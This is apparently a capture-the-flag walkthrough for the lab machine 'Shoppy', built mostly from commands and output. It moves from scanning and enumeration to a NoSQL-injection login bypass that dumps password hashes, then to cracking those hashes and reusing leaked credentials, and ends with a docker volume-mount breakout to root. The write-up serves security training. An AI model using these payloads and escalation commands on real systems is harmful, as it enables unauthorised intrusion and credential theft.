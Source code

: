 # SHOPPY WALKTHROUGH

## 1 - Scan ports


command:

```
nmap -sV -sT -sC 10.129.207.108
```
result:

```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-20 20:02 -03
Nmap scan report for shoppy.htb (10.129.207.108)
Host is up (0.23s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9e:5e:83:51:d9:9f:89:ea:47:1a:12:eb:81:f9:22:c0 (RSA)
|   256 58:57:ee:eb:06:50:03:7c:84:63:d7:a3:41:5b:1a:d5 (ECDSA)
|_  256 3e:9d:0a:42:90:44:38:60:b3:b6:2c:e9:bd:9a:67:54 (ED25519)
80/tcp open  http    nginx 1.23.1
|_http-title:             Shoppy Wait Page        
|_http-server-header: nginx/1.23.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 2 - Directory enumeration

command:

```
gobuster dir -u http://shoppy.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

result:

```
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://shoppy.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/09/20 20:42:13 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 179] [--> /images/]
/login                (Status: 200) [Size: 1074]              
/admin                (Status: 302) [Size: 28] [--> /login]   
/assets               (Status: 301) [Size: 179] [--> /assets/]
/css                  (Status: 301) [Size: 173] [--> /css/]   
/Login                (Status: 200) [Size: 1074]              
/js                   (Status: 301) [Size: 171] [--> /js/]    
/fonts                (Status: 301) [Size: 177] [--> /fonts/] 
/Admin                (Status: 302) [Size: 28] [--> /login]
```


## 2 - Exploit Login page

Nosql injection was used  to this case 

command inside the directory of ffuf after cloned it from github:


```
./ffuf -u http://shoppy.htb/login -c -w /usr/share/seclists/Fuzzing/Databases/NoSQL.txt -X POST -d 'username=adminFUZZ&password=admin' -H 'Content-Type: application/x-www-form-urlencoded'
```

result:

```
:: Progress: [22/22] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors:' || 'a'=='a            [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 453ms]
```

used the payload in the username field 

 ```
admin' || 'a'=='a
```

 and any value in the password field.

## 3 - Exploit search for users page

http://shoppy.htb/admin/search-users

used the same payload in the field search:

 ```
admin' || 'a'=='a
```

it returnd me a json file to download with the following credentials:

```
[{"_id":"62db0e93d6d6a999a66ee67a","username":"admin","password":"23c6877d9e2b564ef8b32c3a23de27b2"},{"_id":"62db0e93d6d6a999a66ee67b","username":"josh","password":"6ebcea65320589ca4f2f1ce039975995"}]
```

cracked josh password(md5)(https://crackstation.net/): ```remembermethisway```

## 4 - DNS Enumeration

command:

```
./ffuf -u http://shoppy.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.shoppy.htb"
```

result:

```
alpblog                [Status: 200, Size: 2178, Words: 853, Lines: 57, Duration: 185ms]
mattermost              [Status: 200, Size: 3122, Words: 141, Lines: 1, Duration: 185ms]
 www                    [Status: 200, Size: 2178, Words: 853, Lines: 57, Duration: 199ms]
:: Progress: [2178752/2178752] :: Job [1/1] :: 233 req/sec :: Duration: [2:50:18] :: Errors: 1413 ::
```
 ```
 alpblog.shoppy.htb
mattermost.shoppy.htb
```

## 5 - LOGIN AT mattermost.shoppy.htb

Logged in using the josh credentials in the conversation between 
user in the chat page I found another credentials

```
username: jaeger
password: Sh0ppyBest@pp!
```

## 5 - CONNECT VIA SSH USING jaeger CREDENTIALS

Used jaeger credentials to connect via ssh and get the user flag:

```
jaeger@shoppy:~$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  ShoppyApp  Templates  Videos  shoppy_start.sh  user.txt
```

## 6 - FIND password-maneger in deploy FILES

Josh and Jess talked about a password-manager that if we look for permissions using:

```
sudo -l 
```
We will see we can run it as deploy user:

```
User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager
```
This way we will run the following command as deploy user

```
sudo -u deploy /home/deploy/password-manager
```
And this open the password-manager that ask for a password:
```
Welcome to Josh password manager!
Please enter your master password:
```
We don`t have this password, lets see inside source code:
```
cat password-manager
```
We can see this strings:
```
Welcome to Josh password manager!Please enter your master password: SampleAccess granted! Here is creds !cat /home/deploy/creds.txtAccess denied! This incident will be reported !
```
Lets use `Sample` as our password.
Again: 
```
sudo -u deploy /home/deploy/password-manager
```
```
Welcome to Josh password manager!
Please enter your master password: Sample
```
And the result is:
```
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
```
Lets use the new user:
```
ssh deploy@10.10.11.180
```
7 - DOCKER EXPLOIT
Lets look into the images running in the machine:
command:
```
docker images
```
result:
```
REPOSITORY   TAG       IMAGE ID       CREATED        SIZE
alpine       latest    d7d3d98c851f   2 months ago   5.53MB
```
An alpine image running, lets try use this exploits https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation
command: 
```
docker run -it -v /:/host/ alpine chroot /host/ bash
```
result:
```
$ docker run -it -v /:/host/ alpine chroot /host/ bash
root@135c6d7929a3:/#
```
Ok now we are root!
command:
```
cd root
cat root.txt
```
And we have root key.

